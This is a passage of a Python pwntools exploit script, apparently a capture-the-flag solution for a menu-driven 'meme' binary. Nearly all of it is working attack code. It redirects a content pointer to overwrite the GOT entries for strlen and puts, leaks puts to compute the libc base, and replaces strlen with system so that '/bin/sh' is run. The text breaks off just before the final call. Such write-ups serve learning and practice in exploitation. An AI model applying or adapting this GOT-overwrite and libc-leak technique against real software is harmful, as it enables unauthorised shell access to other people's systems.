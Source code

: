 ```python
log.info("buffer maxed out")

# set id buffer+8 to 0x69696969 to clear nulls so we can overwrite meme content addr
r.sendline("5")
r.recv(1024)
log.info("called secret meme")

# set meme content addr to strlen
r.sendline("1")
r.sendline(cyclic(0xc) + p32(e.sym['got.strlen']) + cyclic(10))
r.recv(1024)
log.info("meme content should be addr of strlen")

# set dankness back to a reasonable # so that we can write content to the meme
r.sendline("2")
r.sendline("5")
r.recv(1024)
log.info("set dankness to 5")

# overwrite strlen with our gadget that ignores nulls
r.sendline("3")
r.sendline(p32(strlen_replace))
r.recv(1024)
log.info("strlen replaced")

# set meme content addr to puts
r.sendline("1")
r.sendline(cyclic(0xc) + p32(e.sym['got.puts']) + cyclic(10))
r.recv(1024)
log.info("meme is now the address of puts")

# leak the address of puts... I guess I could have just done strlen. Oh well
r.sendline("4")
r.recvuntil("c0nT3nT:")
r.recv(1) #tab
leaked_puts = u32(r.recv(4))

# rebase libc on leaked puts addr
libc.address = leaked_puts - libc.symbols["puts"]
r.recv(1024)
log.success("leaked puts: " + hex(leaked_puts) + ", system: " + hex(libc.symbols['system']))

# read in /bin/sh to id and also set the meme content addr to strlen
r.sendline("1")
r.sendline("/bin/sh\x00" + cyclic(0xc-8) + p32(e.sym['got.strlen']) + cyclic(20))
r.recv(1024)
log.info("set meme to strlen")

# to set content (overwrite strlen with system) set the dankness back to 11 :)
r.sendline("2")
r.sendline("5")
r.recv(1024)
log.info("set dankness to 5")

# overwrite strlen with system
r.sendline("3")
r.sendline(p32(libc.symbols['system']))
r.recv(1024)
log.info("set strlen to system")

# call dat bad boiiii
r.sendline("1")
r.recvuntil("ur m3m3 id")
```